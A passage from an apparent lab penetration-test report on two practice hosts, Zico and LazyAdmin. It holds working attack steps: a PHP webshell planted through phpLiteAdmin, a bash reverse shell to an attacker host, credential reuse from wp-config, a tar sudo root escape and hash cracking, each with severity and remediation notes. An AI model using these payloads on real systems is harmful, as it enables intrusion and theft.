

### Miscellaneous notes

The author implemented a nice monitoring feature on the box, confronting with how much noise you make. I generated 35 "level 6" alerts, which would otherwise have had me blocked for 10 minutes each. Phew!



## System IP 10.0.100.105 (Zico)

### System overview

|                   |                 |
|-------------------|-----------------|
| IP Address        | 10.0.100.105    |
| Hostname          | Zico            |
| Exploitation Date | 04-05-2020      |
| Point Value       | N/A             |

### Exploitation Overview

To exploit this machine we identified `phpLiteAdmin v1.9.3`, which allows us to write arbitrary files to the webserver. We exploit this privilege to write a webshell, which effectively grants us command execution on the server. To escalate our privileges, we abuse our sudo rights on the `tar` binary to spawn an interactive shell as root.

#### Portscan - TCP

```plaintext
PORT      STATE SERVICE REASON          VERSION
22/tcp    open  ssh     syn-ack ttl 128 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJwR6q4VerUDe7bLXRL6ZPTXj5FY66he+WWlRSoQppwDLqrTG73Pa9qUHMDFb1LXN1qgg0p0lyfqvm8ZeN+98r
bT0JW6+Wqa7v0K+N82xf87fVkJcXAuU/A8OGR9eVMZmWsIOpabZexd5CHYgLO3k4YpPSdxc6S4zJcOGwXVnmGHAAAAFQDHjsPg0rmkbquTJRdlEZBVJe
9+3QAAAIBjYIAiGvKhmJfzDjVfzlxRD1ET7ZhSoMDxU0KadwXQP1uBdlYVEteJQpUTEsA+7kFH7xhtZ/zbK2afEFHriAphTJmz8GqkIR5CJXh3dZspdk
2MHCgxkXl5G/iVPLR9UShN+nsAVxfm0gffCqbqZu3Ridt3JwTXQbiDfXO/a6T/eQAAAIEAlsW/i/dUuFbRVO2zaAKwL/CFWT19Al7+njszC5FCJ2degg
mF/NIKJUbJwkRZkwL4PY1HYj2xqn7ImhPSyvdCd+IFdw73Pndnjv0luDc8i/a4JUEfna4rzXt1Y5c24J1pEoKA05VicyCBD2z6TodRJEVEFSsa1s8s2p
9x6LxwsDw=
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZt46W9slSN3Y6D2f931rijUPCEewhQWmBfGhybuF4qLftfJMuyFcREZkG6UretVI8ZnQn/OMDgb
f2DYMzKsRLnz7W5cGy1Mt1pWoG0iCgi2xHzLqOqPYo4mP9/hdZT6pANXapETT55yx8sHAYLAa9NK5Dtyv+QNQ2dUUb1wUTCqgYffLVDgoHvNNDwCwB6b
iJf6uopqfg2KXvAzcqSa6oaRChJOXjFlM08HebMwkMSzrOXjWbXhFsONy5JuDf3WztCtLMsFrVRHTdDwTh7uL2UQ8Qcky+kP6Wd7G8NlW5RxubYIFpAM
0u2SsQIjYOxz+eOfQ8GE3WjvaIBqX05gat
|   256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFxsiWE3WImfJcjiWS5asOVoMsn+0gFLU5AgPNs2AT
okB7kw00IsB0YGrqClwYNauRRddkYMsi0icJSR60mYNSo=
80/tcp    open  http    syn-ack ttl 128 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind syn-ack ttl 128 2-4 (RPC #100000)
39881/tcp open  status  syn-ack ttl 128 1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Network interfaces

```plaintext
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:e2:b0:d1 brd ff:ff:ff:ff:ff:ff
    inet 10.0.100.105/24 brd 10.0.100.255 scope global eth0
    inet6 fe80::20c:29ff:fee2:b0d1/64 scope link 
       valid_lft forever preferred_lft forever
```

### Credentials

```plaintext
zico:sWfCsfJSPV9H3AmQzw8
```

### Exploitation and proof

#### Initial access

##### Vulnerability exploitation

Nmap finds a handful of ports open, of which SSH and HTTP are most notable. Starting with the HTTP server, we can enumerate several pages and directories on the server.

```
# gobuster dir -u http://10.0.100.105/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html -o gobuster.out
[...]
/index (Status: 200)
/index.html (Status: 200)
/img (Status: 301)
/tools (Status: 200)
/tools.html (Status: 200)
/view (Status: 200)
/view.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/less (Status: 301)
/server-status (Status: 403)
/dbadmin (Status: 301)
```

The directory `/dbadmin` looks interesting. It has directory listing enabled, which shows us that `test_db.php` exists in that directory. Here, we can login with a default password of `admin` to find `phpLiteAdmin v1.9.3`. This system has a [known vulnerability](https://www.exploit-db.com/exploits/24044) that could allow us to write arbitrary code to PHP files, which will get executed server-side!

To exploit this vulnerability, we create a new database called `hack.php`, and populate this database with one table that has one column. We configure this column to have the following default value:

```
<?php echo system($_GET["cmd"]);?>
```

> Note the double quotes! Single quotes don't work because the payload is already embedded in single quotes by the phpLiteAdmin application.

In the database settings, we see that our simple webshell is written to `/usr/databases/hack.php`. Unfortunately, we cannot access this directory. We can rename the payload to attempt to specify a new path.



Looking at the directory listing in `/dbadmin`, it seems to have been written correctly! Now we can visit our page to see if the webshell works correctly.

```
# curl http://10.0.100.105/dbadmin/cmd2.php?cmd=id --output -
Wtable11CREATE TABLE '1' ('e' TEXT default 'uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In the garbled output we see that our command is interpreted by PHP. Awesome, we have command execution. We send the following request.
```
# curl --output - http://10.0.100.105/dbadmin/cmd2.php?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%30%2e%31%30%30%2e%31%30%38%2f%34%34%33%20%30%3e%26%31%27
```

> This is the below in URL-encoded format.
> 
> ```
> bash -c 'bash -i >& /dev/tcp/10.0.100.108/443 0>&1'
> ```

We now get a shell back as `www-data` on our listener.

##### Severity

`High` - An attacker with connectivity to the machine may guess the credentials for `phpLiteAdmin` and use the known vulnerability in this system to gain command execution on the machine.

##### Remediation

- Change the default password for `phpLiteAdmin`.
- Limit access to the database where possible.

##### Proof



#### Privilege Escalation

##### Vulnerability exploitation

As `www-data` we have read access to most of Zico's home folder. It looks like he is experimenting with several content management systems.

```
www-data@zico:/home/zico$ ls -la
ls -la
total 9244
drwxr-xr-x  6 zico zico    4096 Jun 19  2017 .
drwxr-xr-x  3 root root    4096 Jun  8  2017 ..
-rw-------  1 zico zico     912 Jun 19  2017 .bash_history
-rw-r--r--  1 zico zico     220 Jun  8  2017 .bash_logout
-rw-r--r--  1 zico zico    3486 Jun  8  2017 .bashrc
-rw-r--r--  1 zico zico     675 Jun  8  2017 .profile
drw-------  2 zico zico    4096 Jun  8  2017 .ssh
-rw-------  1 zico zico    3509 Jun 19  2017 .viminfo
-rw-rw-r--  1 zico zico  504646 Jun 14  2017 bootstrap.zip
drwxrwxr-x 18 zico zico    4096 Jun 19  2017 joomla
drwxrwxr-x  6 zico zico    4096 Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico      61 Jun 19  2017 to_do.txt
drwxr-xr-x  5 zico zico    4096 Jun 19  2017 wordpress
-rw-rw-r--  1 zico zico 8901913 Jun 19  2017 wordpress-4.8.zip
-rw-rw-r--  1 zico zico    1194 Jun  8  2017 zico-history.tar.gz
```

Inspecting the files, we find database credentials in `wp-config.php` in the Wordpress directory.

```
$ cat wp-config.php
<?php
[...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

Checking for credential re-use, we try to login to SSH with the credentials `zico:sWfCsfJSPV9H3AmQzw8`. It works, and we get a shell as Zico!



Running `sudo -l` to review Zico's sudo permissions, we find that we can execute both `tar` and `zip` as root. That's interesting! Both binaries should allow us to read files as root, but we are of course interested in gaining a full root shell.

```
$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

```

Luckily, [this page](https://gtfobins.github.io/gtfobins/tar/#sudo) lists how we can (ab)use our sudo permissions on the `tar` binary to spawn a full root shell. For this, we simply have to run the following command.

```
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Running this command we instantly get dropped into a root shell, giving us full access to the system.

##### Severity

`Medium` - Anyone with access to Zico's account may abuse these privileges to gain full control over the machine.

##### Remediation

- Restrict read access to sensitive files such as the Wordpress configuration file on a need-to-know basis.
- Limit (sudo) privileges based on the principle of least privilege.
- Restrict sudo privileges for binaries that allow privilege escalation, consider using POSIX capabilities instead.

##### Proof



### Miscellaneous notes

There are more vulnerabilities on the system than those listed above. Firstly, the `/view.php` page on the webserver has the `?page=` parameter that loads a webpage to show. As we can prove by entering e.g. `?page=../../var/www/index.html`, this parameter is vulnerable to local file inclusion. However, we don't seem to be able to access any additional sensitive files at this point because of the limited permissions of user `www-data`.

Additionally, We find two hashes in the `test_users` database, which we can access through `phpLiteAdmin`.



Both hashes are weak and can be cracked easily using a widely available wordlist. However, both passwords seem invalid for users on the machine.

```
# john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
zico2215@        (?)
34kroot34        (?)
2g 0:00:00:00 DONE (2020-05-04 04:17) 3.508g/s 21989Kp/s 21989Kc/s 26377KC/s 34mush..34greenboot
```

## System IP 10.0.100.107 (LazyAdmin)

### System overview

|                   |                 |
|-------------------|-----------------|
| IP Address        | 10.0.100.107    |
| Hostname          | LazyAdmin       |
| Exploitation Date | 04-05-2020      |
| Point Value       | N/A             |

### Exploitation Overview

On this machine, we find an exposed SMB share which allows us to anonymously read several files, including a file containing a password and a php configuration file which contains the database password. Since the latter also discloses a username, we can use that to sign into the SSH server. To escalate our privileges, we utilize overly broad `sudo` rights to grant ourselves a root shell.

### Service Enumeration

#### Portscan - TCP

```plaintext
# nmap -p- --min-rate 1000 -sV 10.0.100.107
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 05:10 EDT
Nmap scan report for 10.0.100.107
Host is up (0.0046s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
MAC Address: 00:0C:29:80:C7:69 (VMware)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Network interfaces

```plaintext
lo: 127.0.0.1
eth0: 10.0.100.107
```

### Credentials

```plaintext
togie:12345
```

### Exploitation and proof

#### Initial access

##### Vulnerability exploitation

Nmap finds several ports open. Looking at the web server first, we find several directories that may be of interest.

```
# gobuster dir -u http://10.0.0.138 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php
[...]
/index.html (Status: 200)
/info.php (Status: 200)
/wordpress (Status: 301)
/test (Status: 301)
/wp (Status: 301)
/apache (Status: 301)
/old (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
```

We find a Wordpress instance at `/wordpress` and a login page for PHPMyAdmin at `/phpmyadmin`. Unfortunately, the Wordpress instance doesn't seem to contain any vulnerable plugins, and we don't have any creds for MySQL to login to the DB.

```
wpscan --plugins-detection aggressive -e ap --url http://10.0.100.107/wordpress/
# No notable results
```

We continue our enumeration with SMB. Running `smbclient -L 10.0.100.107` returns three shares, among which the non-default and hidden share `share$`. Let's see if we can connect to that!

```
# smbclient //10.0.100.107/share$
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Aug 15 07:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017

                3029776 blocks of size 1024. 1404884 blocks available
```

Nice, we have a listing of the files hosted on the web server. Very interesting! Unfortunately, we cannot put a webshell through `put`, but we can pull interesting files and inspect them. The file `deets.txt` contains a password of `12345`, but we're not sure what the account is or who it is for. Further, we get some database credentials from the Wordpress configuration.

```php
# cat wp-config.php                                                 
<?php                                                                                                               
[...]

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Using these credentials, we can succesfully log in to PHPMyAdmin. Unfortunately, this version is not vulnerable and we can't seem to access potentially interesting database tables.



Looking at that password, it does however disclose a possible (user)name, 'Togie'. Combining that with the password we found before we try `togie:12345` on SSH. It works!

> Since we gained shell access at this point, I did not look at the IRC port that is open any further.

##### Severity

`Critical` - Anyone with connectivity to the target machine can gain access to sensitive files through the exposed share, and potentially guess or bruteforce the weak credentials to gain SSH access to the machine.

##### Remediation

- Choose stronger passwords for services, especially external services such as SSH.
- Limit (database) account privileges according to least privilege.
- Limit network access to SSH and MySQL if remote access to these ports is not required.

##### Proof



#### Privilege Escalation

##### Vulnerability exploitation

From the last screenshot (`id`), we notice we are in the `sudo` group. Running `sudo -l` and specifying the password of 12345 shows us that we can run *all* commands as root, which means we can trivially escalate our privileges by running `sudo su`!

##### Severity

`High` - Anyone with access to the `sudo` group or similar privileges in the `sudoers` file can trivially gain full control over the system.

##### Remediation

Limit `sudo` privileges on a least-privilege basis.

##### Proof

